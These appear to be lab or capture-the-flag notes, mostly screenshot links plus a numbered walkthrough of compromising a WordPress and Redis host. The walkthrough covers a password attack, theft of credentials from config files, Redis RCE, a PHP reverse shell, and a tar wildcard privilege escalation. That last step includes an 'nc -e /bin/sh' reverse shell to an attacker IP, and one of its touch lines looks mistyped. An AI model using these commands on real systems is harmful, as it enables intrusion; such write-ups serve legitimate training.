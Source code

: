 ![image](https://github.com/user-attachments/assets/32dd8ac7-6ba1-4f6a-87e7-ca1be395707e)
![image](https://github.com/user-attachments/assets/499717f1-b319-462e-922d-3d31a78b2b23)
![image](https://github.com/user-attachments/assets/10b7f6d6-acea-4480-ab98-88d9acef6fc3)
![image](https://github.com/user-attachments/assets/1192314e-f873-45c9-87d6-ea5750eafa23)
![image](https://github.com/user-attachments/assets/6c98fc1c-32d9-4f46-b44e-4a75631947f0)
![image](https://github.com/user-attachments/assets/fbf63229-5216-46d0-91cb-62f448ed7d6a)
![image](https://github.com/user-attachments/assets/d100b004-a86b-442a-a9c4-483971588f35)
![image](https://github.com/user-attachments/assets/5988b499-5ad0-46b0-a706-0d88b98f0bd6)
![image](https://github.com/user-attachments/assets/8af331e7-a318-44c1-bfd5-5d86ec914a66)
![image](https://github.com/user-attachments/assets/786c8a9e-5d86-47fa-bd5d-341bb5542f60)
![image](https://github.com/user-attachments/assets/6dd13455-142c-4a64-9476-0361235f2f2b)
![image](https://github.com/user-attachments/assets/a90146c7-8d66-4198-9f4b-db2b600646d2)
![image](https://github.com/user-attachments/assets/58c5d2dd-25a6-4a4f-b441-425add63d2f0)
![image](https://github.com/user-attachments/assets/dfe0d4df-8b30-47ae-9ecd-693c38b04727)
![image](https://github.com/user-attachments/assets/17329205-1429-4a37-9c73-87180fd8b08a)
![image](https://github.com/user-attachments/assets/887ef54e-09ea-4a58-a8a7-3226299aced3)
![image](https://github.com/user-attachments/assets/31e434c6-d1a7-400b-893d-1c4a1d16f219)
![image](https://github.com/user-attachments/assets/da36cd67-f3db-4afe-a01a-ce6f0f113dd8)
![image](https://github.com/user-attachments/assets/ae3d11ac-cadd-4f7b-9fa3-d4d5ab9f22c8)
![image](https://github.com/user-attachments/assets/f9559a01-9ace-400b-ba28-e5b180b639dd)
![image](https://github.com/user-attachments/assets/1e8bfe2c-33b0-40c0-b815-5ac619d573ea)
![image](https://github.com/user-attachments/assets/ddffe00b-4e66-4fb2-9389-c2cf1738db85)
![image](https://github.com/user-attachments/assets/3da3ccb4-d310-4ec0-997a-e36f382c4269)
![image](https://github.com/user-attachments/assets/f9aa57d6-6449-46a2-b1e5-965417cc7447)
![image](https://github.com/user-attachments/assets/dc98b19b-3e84-43c5-bbd9-b98694de687e)
![image](https://github.com/user-attachments/assets/0d8cb718-3c8e-4d38-ba97-57811711372a)
![image](https://github.com/user-attachments/assets/1cef9b58-474c-4bd0-977d-abd8c2d355b1)
![image](https://github.com/user-attachments/assets/ca76b36b-5339-44b5-8937-c5ef35d597f6)
![image](https://github.com/user-attachments/assets/c78831d0-3da7-4447-abc1-caa9a44f1b18)
![image](https://github.com/user-attachments/assets/fecc6a50-c773-4e95-a088-e9d41d34c5e0)
![image](https://github.com/user-attachments/assets/9a0854be-5d8b-420b-9ede-94872d72e817)
![image](https://github.com/user-attachments/assets/6d4ef98c-0832-49ac-9a74-4062f54a219d)
![image](https://github.com/user-attachments/assets/78796bbc-41ed-48d1-bf9e-37e55767a2ad)
![image](https://github.com/user-attachments/assets/c87489ac-ac30-40e7-94b5-6a0ca0182233)
![image](https://github.com/user-attachments/assets/50c6dd0b-d48e-422a-b365-76188482d04f)


1. WPScan -- get user admin

2. WPScan password attack against admin, no password after 15 mins, get Plugin site editor version 1.1.1

3. Exploit-DB 44340 --> get user alice --> also redis? 

4. /etc/redis/redis.conf --> SECURITY get password

5. get exp_lin.so & redis-rce.py from https://github.com/jas502n/Redis-RCE

6. usage example https://github.com/Ridter/redis-rce    (password from redis.conf)

7. MySQL creds from /var/www/html/wp-config.php

8. netstat -tulnp --> port 3306 listen on local address

9. try MySQL database --> cannot log in, just hanging

10. ps -aux --> alice run apache2

11. find / -type d -maxdepth 4 -writable 2>/dev/null --> cannot write to /var/www/html (apache2)

12. simple php --> /tmp/test.php ---> curl to call  --> fail

13. simple php --> /run/redis/test.php ---> curl to call --> work

14. php reverse shell --> /run/redis/php-reverse-shell.php --> curl to call --> get shell as alice

15. linpeas --> Cron Job /usr/local/bin/backup.sh --> tar *

16. tar wildcard privilege escalation
    ```bash
    echo '#!/bin/bash' > exploit.sh
    echo 'nc -e /bin/sh 192.168.45.165 80' >> exploit.sh
    chmod +x exploit.sh
    touch ./"--checkpoint=1"
    touch ./"checkpoint-action=exec=bash exploit.sh"
   ```
